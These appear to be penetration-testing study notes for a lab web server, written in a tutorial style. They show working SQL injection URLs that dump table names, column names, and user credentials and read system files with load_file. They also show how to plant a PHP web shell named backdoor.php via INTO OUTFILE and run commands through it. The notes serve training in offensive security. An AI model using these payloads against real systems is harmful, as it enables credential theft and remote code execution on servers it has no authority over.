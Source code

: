 **To output database information (table name)** `table_name from information_schema.tables`
```
http://192.168.141.10/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
```
![[Pasted image 20221221213437.png]]

**To output column names from table** `column_name from information_schema.columns where table_name='users'`
```
http://192.168.141.10/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```
![[Pasted image 20221221213542.png]]

**To output specific columns (username, password) from table** `select 1, username, password from users`
```
http://192.168.141.10/debug.php?id=1 union all select 1, username, password from users
```
![[Pasted image 20221221213716.png]]


# From SQL injection to Code Execution
Sometimes, SQL injection vulnerabilities can be used to read and write files to the underlying OS. Writing a carefully crafted file containing PHP code into the root directory of the web server can then be leveraged for full code execution.

**Testing the *load_file* function**
```
http://192.168.141.10/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```
![[Pasted image 20221221215038.png]]
This outputs the contents of the *hosts* file on the web server.

**Using INTO OUTFILE function to write malicious PHP file to server's web root**
```
http://192.168.141.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```
This will place the file containing our malicious PHP code in the web root, allowing us to use it.

```
http://192.168.141.10/backdoor.php?cmd=ipconfig
```
![[Pasted image 20221221215342.png]]


# Automating SQL injection
We can use a tool that is pre-installed in Kali - *sqlmap* to identify and exploit SQL injection vulnerabilities against various database engines.
